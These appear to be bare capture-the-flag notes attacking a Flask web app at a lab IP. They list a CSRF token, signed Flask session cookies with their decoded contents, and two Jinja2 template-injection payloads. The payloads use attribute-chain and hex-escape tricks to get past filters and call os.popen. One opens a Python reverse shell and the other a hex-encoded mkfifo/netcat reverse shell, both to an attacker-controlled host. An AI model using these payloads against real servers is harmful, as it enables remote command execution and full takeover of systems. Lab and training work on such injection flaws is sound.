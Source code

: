 <input id="csrf_token" name="csrf_token" type="hidden" value="ImI3ODc1NWRhZWQ4ODQ3OGU0ZjY0NDgzZDlkZWZlMTA4N2Y0ZDg2ZGUi.Y3MEJQ.stC5kdc_FwfMJyIeDpuG2-djLPg">

eyJfZnJlc2giOmZhbHNlLCJjc3JmX3Rva2VuIjoiYTk5YjFlZDQ0MjhiMWZmOTU1NDk1MjcyZTRlOTUzM2RjNzE2OTJlOCJ9.Y3MJEg.uauPwAvkh34dTvoSUe2K-vj4Ad0
eyJfZnJlc2giOmZhbHNlLCJjc3JmX3Rva2VuIjoiNTExZDU2NzhhYmM5MmZkYzYxNmEyYjYzMGNlMDFhNGEzNjdlNzZlMCJ9.Y3MJTg.jruH4JcLXggjJa-yW4aT8YNSrX8
{
  "_fresh": false,
  "csrf_token": "511d5678abc92fdc616a2b630ce01a4a367e76e0"
}

eyJfZnJlc2giOmZhbHNlLCJjc3JmX3Rva2VuIjoiOThiNmZkN2ZjMWMzZmZkZjU3YTE2MmM4ZWE3OWQwMTRjMGFjM2FkNSJ9.Y3MJIg.Jo9N5eTyXtA5D_cxFJOq_zswDmw
{
  "_fresh": false,
  "csrf_token": "98b6fd7fc1c3ffdf57a162c8ea79d014c0ac3ad5"
}

curl -c "SESSION=session-cookie" http://10.10.191.43:8080/{{request|attr('application')|attr( request|attr('args')|attr('get')('us')*2 + "globals" + request|attr('args')|attr('get')('us')*2 ) |attr( request|attr('args')|attr('get')('us')*2 + 'getitem' + request|attr('args')|attr('get')('us')*2 )( request|attr('args')|attr('get')('us')*2 + 'builtins' + request|attr('args')|attr('get')('us')*2) |attr( request|attr('args')|attr('get')('us')*2 + 'getitem' + request|attr('args')|attr('get')('us')*2)(request|attr('args')|attr('get')('us')*2 + 'import' + request|attr('args')|attr('get')('us')*2)('os')|attr('popen')(request|attr('args')|attr('get')('c'))|attr('read')()}}?us=_&c=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.113.133",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')
('\x72\x6d\x20\x2d\x66\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x31\x30\x2e\x31\x30\x2e\x31\x31\x33\x2e\x31\x33\x33\x20\x34\x32\x34\x32\x20\x3e\x2f\x74\x6d\x70\x2f\x66')|
attr('read')()}}
